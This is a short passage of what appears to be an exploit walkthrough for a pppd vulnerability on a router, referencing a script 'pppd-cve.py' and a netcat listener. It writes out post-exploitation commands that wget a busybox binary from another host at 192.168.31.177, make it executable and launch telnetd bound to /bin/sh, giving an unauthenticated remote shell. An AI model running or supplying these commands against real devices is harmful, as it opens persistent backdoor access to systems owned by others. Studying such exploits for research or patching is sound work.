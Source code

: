     <img height="auto" width="auto" src="images/12.png" />
</p>

When the packet has been sent successfully, you should be able to see a connection from `192.168.31.1:63627` in your `netcat` session.

This connection can be unstable and you may need to rerun `netcat` and `pppd-cve.py` if it drops.

If you do the following commands quickly, there should be no issues:

```sh
cd /tmp
wget http://192.168.31.177/busybox
chmod a+x ./busybox
./busybox telnetd -l /bin/sh
```

<p align="center">